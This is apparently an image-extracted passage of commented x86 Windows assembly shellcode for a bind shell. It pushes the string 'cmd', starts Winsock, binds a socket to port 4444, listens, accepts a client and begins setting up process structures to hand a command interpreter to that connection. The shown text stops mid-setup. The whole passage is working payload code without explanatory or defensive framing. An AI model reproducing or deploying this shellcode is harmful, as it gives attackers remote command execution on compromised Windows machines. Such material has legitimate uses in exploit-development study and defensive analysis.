 ```
call resolve_symbols_for_dll
initialize_cmd: ;push the string "cmd" onto the stack
    mov eax, 0x646d6301
    sar eax, 0x08
    push eax
    mov [ebp + 0x34], esp
WSAStartup: ;initialise networking
    xor edx,edx ;make some stack space
    mov dh, 0x03 ;sizeof(WSADATA) is 0x190
    sub esp, edx     ;initialize winsock
    push esp ;use stack for WSADATA
    push 0x02 ;wVersionRequested
    call [ebp + 20h] ;call WSAStartup
    add esp, 0x0300 ;move esp over WSAData
create_socket:
    xor eax, eax ;zero eax
    push eax ;Push the dwFlags argument to WSASocket as 0.
    push eax ;Push the g argument to WSASocket as 0.
    push eax ;Push the lpProtocolInfo argument to WSASocket as NULL.
    push eax ;Push the protocol argument to WSASocket as 0.
    inc eax ;Increment eax to 1.
    push eax ;Push the type argument to WSASocket as SOCK STREAM.
    inc eax ;Increment eax to 2.
    push eax ;Push the af argument to WSASocket as AF INET.
    call [ebp + 0x10] ;Call WSASocket to allocate a socket for later use.
    mov esi, eax ;Save the socket file descriptor in esi.
bind:
    xor eax, eax ;Zero eax for use as passing zerod arguments
    xor ebx, ebx ;Zero ebx.
    push eax ;Push zero.
    push eax ;Push zero.
    push eax ;Push the sin addr attribute of struct sockaddr in.
    mov eax, 0x5c110102 ;Set the high order bytes of eax to the port that is to be bound to and the low order bytes to AF INET.
    dec ah ;Fix the sin family attribute such that it is set appropriately.
    push eax ;Push the sin port and sin family attributes.
    mov eax, esp ;Set eax to the pointer to the initialized struct sockaddr in structure.
    mov bl, 0x10 ;Set the low order byte of ebx to 0x10 to signify the size of the structure.
    push ebx ;Push the namelen argument as 0x10.
    push eax ;Push the name argument as the pointer to the struct sockaddr in structure.
    push esi ;Push the file descriptor that was returned from WSASocket
    call [ebp + 0x14] ;Call bind to bind to the selected port.
listen:
    push ebx ;Push 0x10 for use as the backlog argument to listen.
    push esi ;Push the file descriptor that was returned from WSASocket.
    call [ebp + 0x18] ;Call listen to begin listening on the port that was just bound to.
accept:
    push ebx ;Push 0x10 onto the stack.
    mov edx, esp ;Save the pointer to 0x10 in edx.
    sub esp, ebx ;Allocate 16 bytes of stack space for use as the output addr to the accept call.
    mov ecx, esp ;Save the pointer to the output buffer in ecx.
    push edx ;Push the addrlen argument as the pointer to the 0x10 on the stack.
    push ecx ;Push text addr argument as the pointer to the output struct sockaddr in on the stack
    push esi ;Push the file descriptor that was returned by WSASocket.
    call [ebp + 0x1c] ;Call accept and wait for a client connection to arrive. The client connection will be used for the redirected output from the command interpreter.
    mov esi, eax ;Save the client file descriptor in esi.
initialize_process:
    xor ecx, ecx ;Zero ecx.
    mov cl, 0x54 ;Set the low order byte of ecx to 0x54 which will be used to represent the size of the STARTUPINFO and PROCESS INFORMATION structures on the stack.
    sub esp, ecx ;Allocate stack space for the two structures.
    mov edi, esp ;Set edi to point to the STARTUPINFO structure.
```